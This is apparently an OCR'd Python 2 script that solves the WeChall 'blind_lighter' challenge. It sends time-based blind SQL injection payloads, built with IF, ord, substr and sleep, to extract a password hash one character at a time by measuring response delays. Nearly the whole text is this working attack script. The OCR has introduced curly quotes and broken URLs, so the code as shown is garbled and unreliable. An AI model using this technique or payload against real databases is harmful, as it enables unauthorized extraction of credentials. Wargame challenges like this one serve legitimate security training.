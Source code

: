 ```py
import subprocess
import requests

def round_down(num, divisor):
    return num - (num%divisor)

subprocess.Popen([“modprobe pcspkr”], shell=True)
subprocess.Popen([“beep”], shell=True)

values = {'0': '0', '25': '1', '50': '2', '75': '3', '100': '4', '125': '5', '150': '6', '175': '7', '200': '8', '225': '9', '250': 'A', '275': 'B', '300': 'C', '325': 'D', '350': 'E', '375': 'F'}
times = []
answer = “This is the first time”
cookies = {'wc': 'cookie'}
setup = requests.get ('http://www.wechall.net/challenge/blind_lighter/index .php?mo=WeChall&me=Sidebar2&rightpanel=0', cookies=cookies)
y=0
accum=0

while 1:
  reset = requests.get('http://www.wechall.net/challenge/blind_lighter/ index.php?reset=me', cookies=cookies)
  for line in reset.text.splitlines():
    if “last hash” in line:
      print “the old hash was:”+line.split(“ “)[20].strip(“.</li>”)
      print “the guessed hash:”+answer
      print “Attempts reset \n \n”
    for x in range(1, 33):
      payload = {'injection': '\'or IF (ord(substr(password, '+str(x)+', 1)) BETWEEN 48 AND 57,sleep((ord(substr(password, '+str(x)+', 1))- 48)/4),sleep((ord(substr(password, '+str(x)+', 1))- 55)/4));#', 'inject': 'Inject'}
      req = requests.post ('http://www.wechall.net/challenge/blind_lighter/ index.php?ajax=1', data=payload, cookies=cookies)
      responsetime = str(req.elapsed)[5]+str(req.elapsed)[6]+str(req.elapsed)[8]+ str(req.elapsed)[9]
      accum = accum + int(responsetime)
      benchmark = int(15)
      benchmarked = int(responsetime) - benchmark
      rounded = str(round_down(benchmarked, 25))
      if rounded in values:
        a = str(values[rounded])
        times.append(a)
        answer = ''.join(times)
      else:
        print rounded
        rounded = str(“375”)
        a = str(values[rounded])
        times.append(a)
        answer = ''.join(times)
  submission = {'thehash': str(answer), 'mybutton': 'Enter'}
  submit = requests.post('http://www.wechall.net/challenge/blind_lighter/ index.php', data=submission, cookies=cookies)
  print “Attempt: “+str(y)
  print “Time taken: “+str(accum)
  y += 1
  for line in submit.text.splitlines():
    if “slow” in line:
      print line.strip(“<li>”)
    elif “wrong” in line:
      print line.strip(“<li>”)
  if “wrong” not in submit.text:
    print “possible success!”
    #subprocess.Popen([“beep”], shell=True)
```